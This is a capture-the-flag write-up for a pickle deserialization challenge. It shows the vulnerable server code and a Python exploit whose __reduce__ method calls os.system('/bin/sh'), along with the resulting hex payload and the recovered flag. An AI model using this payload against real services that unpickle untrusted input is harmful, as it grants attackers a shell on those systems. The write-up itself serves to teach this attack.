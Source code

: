 # revenge-is-best-served-pickled

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/eaab5a77-5ecc-404a-94b5-05ddc3edc07a)

```py
from pickle import loads

flag = "ictf{REDACTED}"
del flag

try:
    data = bytes.fromhex(input("Please give me the pickle data (in hex format): "))
    data = loads(data)
    print("I received:", data)
except:
    print("Failed to load pickle!")
```

## solution

for this we have to inject a pickle payload to allow us to use /bin/sh<br>
this is pretty simple, we can find an example on github [here](https://github.com/cyberheartmi9/python-pickle/blob/master/exploit.py)

```py
import pickle
import socket
import os

class pwn(object):
    def __reduce__(self):
       comm = "/bin/sh"
       return (os.system, (comm,))

pwn = pickle.dumps(pwn())
print(bytes.hex(pwn))
```

now, we have `80049522000000000000008c05706f736978948c0673797374656d9493948c072f62696e2f736894859452942e` as our payload

we can input this into the program and now have a remote shell.

running `ls` and then `cat run` gets the original program on the remote server, along with the flag:
```py
#!/usr/local/bin/python3.11
from pickle import loads

flag = "ictf{h0w_7h3_7urn_74b135}"
del flag

try:
    data = bytes.fromhex(input("Please give me the pickle data (in hex format): "))
    data = loads(data)
    print("I received:", data)
except:
    print("Failed to load pickle!")
```

the flag is `ictf{h0w_7h3_7urn_74b135}`
